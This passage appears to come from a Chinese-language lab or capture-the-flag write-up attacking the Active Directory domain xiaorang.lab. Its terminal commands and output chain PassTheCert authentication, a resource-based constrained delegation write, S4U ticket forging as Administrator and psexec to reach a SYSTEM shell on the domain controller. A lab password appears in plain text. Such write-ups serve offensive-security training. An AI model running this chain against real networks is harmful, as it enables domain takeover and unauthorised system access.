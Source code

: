 然后执行攻击

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q python3 ./tools/PassTheCert/Python/passthecert.py -action whoami -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] You are logged in as: XIAORANG\XR-DC01$
```

可以成功登录，尝试 RBCD

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q python3 ./tools/PassTheCert/Python/passthecert.py -action write_rbcd -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13 -delegate-to 'XR-DC01$' -delegate-from 'randark2'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] randark2$ can now impersonate users on XR-DC01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     randark2$    (S-1-5-21-3745972894-1678056601-2622918667-1148)
```

申请 TGT 票据

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-getST xiaorang.lab/'randark2$':'admin123###2' -dc-ip 172.22.15.13  -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_XR-DC01.xiaorang.lab@XIAORANG.LAB.ccache
```

得到票据之后，就可以直接拿到 shell

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-psexec Administrator@XR-DC01.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13 -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on XR-DC01.xiaorang.lab.....
[*] Found writable share ADMIN$
[*] Uploading file nZUluhoI.exe
[*] Opening SVCManager on XR-DC01.xiaorang.lab.....
[*] Creating service Xvjs on XR-DC01.xiaorang.lab.....
[*] Starting service Xvjs.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.14393]
(c) 2016 Microsoft Corporation。保留所有权利。

C:\windows\system32> whoami
nt authority\system
```
